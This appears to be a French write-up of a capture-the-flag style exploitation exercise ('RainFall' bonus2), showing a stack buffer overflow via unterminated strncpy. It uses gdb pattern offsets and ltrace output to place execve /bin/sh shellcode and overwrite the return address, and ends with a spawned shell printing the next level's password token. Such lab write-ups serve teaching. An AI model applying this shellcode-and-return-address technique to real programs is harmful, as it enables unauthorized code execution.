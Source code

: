 # B2onus

- Quand on met un arg 1 de 40+ strncpy met un `\0` trop loin se qu'il fait qu'il est ecraser par arg2. Se qui fait que arg1 et arg2 sont une string
- On voit donc dans cette exemple qu'on peut overwrite la Return Adress
<pre>
gdb-peda$ pattern create 200
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA'
gdb-peda$ r $(python -c  "print('A' * 200)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AA'

Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

Program received signal SIGSEGV, Segmentation fault.
[-------------------------------------code-------------------------------------]
<strong>Invalid $PC address: 0x800413b</strong>
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x0800413b in ?? ()
gdb-peda$ pattern offset 'A;'
<strong>A; found at offset: 29</strong>
</pre>

- Quand LANG est different en different de NULL alors var_60 est ecrit dans env
- Sauf que vu qu'il y a deja un overide dans le strcpy de l'arg[1]. Les arg_1 et arg_2 sont considerer comme un seul argument

<pre>
$> LANG=nl gdb ./bonus2 
gdb-peda$ pattern create 40
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'
gdb-peda$ r $(python -c "print('A' * 40)") 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAa'

Goedemiddag! AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA%AAsAABAA$AAnAACAA-AA(AADAA;A

[----------------------------------registers-----------------------------------]
<strong>EIP: 0x41412841 ('A(AA')</strong>
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41412841
[------------------------------------stack-------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41412841 in ?? ()
gdb-peda$ pattern offset 'A(AA'
<strong>A(AA found at offset: 23</strong>
</pre>
- On recupere la bonne addresse memoire ou sera stocké le shellcode
<pre>
bonus2@RainFall:~$ LANG=nl ltrace ./bonus2 $(/tmp/shell) "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"
\__libc_start_main(0x8048529, 3, 0xbffff684, 0x8048640, 0x80486b0 <unfinished ...>
strncpy(<strong>0xbffff580</strong>, "1\311\367\341Qh//shh/bin\211\343\260\013\315\200AAAAAAAAAAA"..., 40) = 0xbffff580
strncpy(0xbffff5a8, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA"..., 32)                            = 0xbffff5a8
getenv("LANG")                                                                            = "nl"
memcmp(0xbffff84c, 0x804873d, 2, 0xb7fff918, 0)                                           = 1
memcmp(0xbffff84c, 0x8048740, 2, 0xb7fff918, 0)                                           = 0
strcat("Goedemiddag! ", "1\311\367\341Qh//shh/bin\211\343\260\013\315\200AAAAAAAAAAA"...) = "Goedemiddag! 1\311\367\341Qh//shh/bin\211\343\260\013"...
puts("Goedemiddag! 1\311\367\341Qh//shh/bin\211\343\260\013"...)                          = 86
--- SIGSEGV (Segmentation fault) ---
+++ killed by SIGSEGV +++
</pre>
- Et on peut lancer le programme avec les argument suivant

| arg 1 | arg 2 |
|-------|-------|
| shellcode + `A` * 20 | `B` * 23 + `\x80\xf5\xff\xbf` |

- On creer des .c car en python ca bug
```
bonus2@RainFall:~$ LANG=nl ./bonus2 $(/tmp/shell) $(/tmp/pat)
Goedemiddag! 1���Qh//shh/bin���̀
                               AAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBBBBB����
$ cat /home/user/bonus3/.pass
71d449df0f960b36e0055eb58c14d0f5d0ddc0b35328d657f91cf0df15910587
```
